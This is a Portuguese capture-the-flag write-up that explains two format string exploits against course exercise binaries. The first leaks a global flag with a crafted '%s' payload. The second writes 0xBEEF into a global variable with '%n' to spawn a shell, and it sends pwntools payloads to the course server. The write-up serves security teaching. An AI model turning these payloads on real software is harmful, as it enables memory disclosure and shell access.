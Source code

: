 # CTF7
## Parte 1

Como dito no enunciado, começamos por analisar os ficheiros fornecidos e seguimos a instrução de começar por correr o checksec e verificamos agora as proteções ativas que este programa tem ao contrário da ultima vez. Ou seja, o program (que é o main.c compilado) usa canários como forma de proteção dos endereços de retorno. No entanto não tem o binário randomizado.

![](images/CTF7_1.png)


Já no código do main.c deu logo para perceber que este é vulnerável em relação a "format string attack" pois para além de não randomizar endereços ainda tem um printf sem argumentos adicionais, apenas o input que é guardado num buffer de 32 bytes através da função scanf.

No main também vemos que a flag fica em variável global (tal como a ajuda do enunciado indica), e para lermos a flag vamos ter de saber o endereço dela na memória, para isso seguimos a outra dica do enunciado e usamos o debuger gdb:

``` 
gdb ./program
p &flag 
```

![](images/CTF7_2.png)

Ficamos então com o endereço da flag e depois iremos usar em formato string como : "\x60\xC0\x04\x08"

Fomos então ao código fornecido no ficheiro exploit_example.py e fizemos algumas alterações:


```
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

E com isso conseguimos encontrar a flag local, que é dummy, para irmos buscar a flag do servidor fazemos então a ultima troca 

```
LOCAL = False
```

![](images/CTF7_3.png)

E com isso chegamos então à flag e finalizamos assim a primeira parte:

![](images/CTF7_4.png)

## Parte 2

Começamos outra vez por analisar os ficheiros fornecidos e reparamos novamente que o Program continua sem randomização de endereço. Porém, reparamos diferenças no main.c que agora é lançada uma bash se o valor key for 0xBEEF, ou seja, 48879 em decimal. A partir daqui vamos poder chegar ao conteúdo do ficheiro flag.txt.

Como a key é uma variável global está na Heap, e por isso vamos usar um format string attack do input através de '%n'. Para isso fomos buscar o valor de endereço da variável global key, seguindo novamente a dica do enunciado, com o gdb:

```
gdb ./program
p &key
```

Está no endereço: "0x0804B324" que é "\x24\xB3\x04\x08" em hexadecimal. Como queremos escrever 48879 neste endereço tivemos de modificar a string dada como input: após o endereço pretendido (4 bytes) é necessário escrever exatamente 48879 - 8 = 48871 bytes antes de '%n'. Temos de ter em conta que o buffer de entrada só tem no máximo 32 bytes disponíveis, e por isso chegamos à expressão de leitura do printf %.Nx, com N = 48871.

```
p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(b"AAAA\x24\xB3\x04\x08%.48871x%n")
p.interactive()
```

![](images/CTF7_5.png)
![](images/CTF7_6.png)

E ao executar chegamos à nova flag.
